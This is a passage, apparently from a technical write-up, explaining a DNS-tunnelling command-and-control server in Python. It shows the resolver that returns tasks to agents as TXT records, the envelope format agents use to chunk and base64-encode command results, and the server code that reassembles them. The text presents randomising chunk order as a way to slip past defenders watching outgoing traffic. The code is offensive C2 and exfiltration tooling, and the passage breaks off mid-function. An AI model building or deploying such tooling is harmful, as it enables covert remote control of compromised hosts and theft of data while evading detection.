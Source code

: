 ```python
        response = take_callback(decrypted_data)
    else: 
        response = take_chunk(decrypted_data)

    return response

# Main resolver method

    def resolve(self, request, handler):
        q = request.q
        qname = str(q.qname).rstrip('.')
        reply = request.reply()

        is_valid_request, fqdn = check_request(qname)

        if not is_valid_request:
            reply.add_answer(RR(q.qname, QTYPE.TXT, rdata=TXT(["PONG"])))
            return reply

        raw_response = handle(fqdn)
        chunked_response = str_to_chunks(raw_response)

        reply.add_answer(RR(q.qname, QTYPE.TXT, rdata=TXT(chunked_response)))
        return reply
```

If the received payload has a pending task, the agent executes it and collects the result; after that, it encodes it in b64, but that encoded data needs to be separated into chunks, each of which is added to an envelope with this format:

```json
    {
        "agent_id": agent01,
        "message_id": 1,
        "chunk_index": 0,
        "size": 32,
        "data": "ZG9uJ3QgZGVjcnlwdCBtZSBiaXRjaA=="
    }
```

The envelope is fragmented to comply with the FQDN label size limit (63 chars). When the server has all the exfiltration FQDNs generated, they are randomized to send all with a random order; it can be used if some defender catches the outgoing traffic.

In the server the chunks are received and, based on **message_id,** are stored. Its value works as a **transaction ID,** and **chunk_index** is used to order the chunk in the correct order. **size** indicates the full data size to check when all the data has been received.

```python
def assemble_data(message_data):
    chunks = message_data["chunks"]
    sorted_indexes = sorted(chunks.keys(), key=int)
    assembled_b64 = ''.join(chunks[i] for i in sorted_indexes)
    decoded_data = b64_decode(assembled_b64).decode()

    return decoded_data

def take_chunk(data):
    response = encrypt_string(AES_KEY, "[NEXT]")
    SESSIONS = read_json_file(SESSIONS_DATA)
    chunk = json.loads(data)

    agent_id = chunk["agent_id"]
    message_id = str(chunk["message_id"])
    chunk_index = str(chunk["chunk_index"])
    chunk_data = chunk["data"]
```
